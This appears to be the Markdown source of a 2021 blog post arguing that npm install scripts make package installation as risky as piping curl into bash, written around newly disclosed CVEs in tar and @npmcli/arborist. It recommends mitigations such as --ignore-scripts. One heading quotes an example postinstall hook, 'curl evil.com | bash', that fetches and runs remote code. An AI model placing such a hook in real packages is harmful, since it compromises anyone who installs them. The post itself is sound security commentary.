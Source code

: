 ```yaml
---
layout: post
title: npm install is curl | bash
date: 2021-09-08T17:44:24.153Z
---
```

Today, GitHub published [a write-up on a number of CVEs](https://github.blog/2021-09-08-github-security-update-vulnerabilities-tar-npmcli-arborist/)[^1] in the npm packages `tar` and `@npmcli/arborist`. In their own words, 

> The npm CLI aims to enforce certain security boundaries on package installation. One of these boundaries is that a package’s contents will only be written to the appropriate folder within the `node_modules` directory hierarchy. Several of the `tar` and `@npmcli/arborist` vulnerabilities will cross that security boundary and may result in unexpected arbitrary file overwrites and subsequent code execution when installing untrusted packages.

This sounds pretty scary: "arbitrary file overwrites and subsequent code execution" is the kind of phrase that you don't want to see in a CVE description. The problem is that by default, npm allows this to happen anyway.

# postinstall: "curl evil.com | bash"

npm (and yarn) will execute arbitrary code when you install a package via [install scripts](https://docs.npmjs.com/cli/v7/using-npm/scripts#npm-install). A valid use-case is to build native code on installation, or do some other environment-specific setup, though these scripts have also been used to [show ads](https://www.zdnet.com/article/npm-bans-terminal-ads/) and, of course, as an [attack](https://blog.sonatype.com/bladabindi-njrat-rat-in-jdb.js-npm-malware) [vector](https://snyk.io/blog/npm-security-malicious-code-in-oss-npm-packages/).

All it takes to get pwned is to install a single malicious package. The risk is mitigated by npm’s moderation of the registry — they’re quick to remove malware once discovered. This works pretty well, though I worry about the day someone uses this to [publish a self-replicating worm](https://blog.npmjs.org/post/141702881055/package-install-scripts-vulnerability).

This feature (or vulnerability, depending on your tastes) isn’t unique to npm. Other package managers like pip and RubyGems allow for the same thing. As developers, installing packages from these registries doesn’t make us shudder in the same as as when we use `curl | bash`, though it should.

## Mitigations

When installing an untrusted package, run `npm install` or `yarn add` with the `--ignore-scripts` flag. If, like me, you tend to forget this, you can set npm/yarn to never run scripts with `{npm,yarn} config set ignore-scripts true`.

I also recommend inspecting the source code of a package before you install it. I like to use [xray.computer](https://xray.computer/source) for this, because I made it.

And, of course, update your npm CLI to fix the CVEs that let packages bypass this setting.

[^1]: Specifically, CVE-2021-32803, CVE-2021-32804, CVE-2021-37701, CVE-2021-37712, CVE-2021-37713, CVE-2021-39134, and CVE-2021-39135.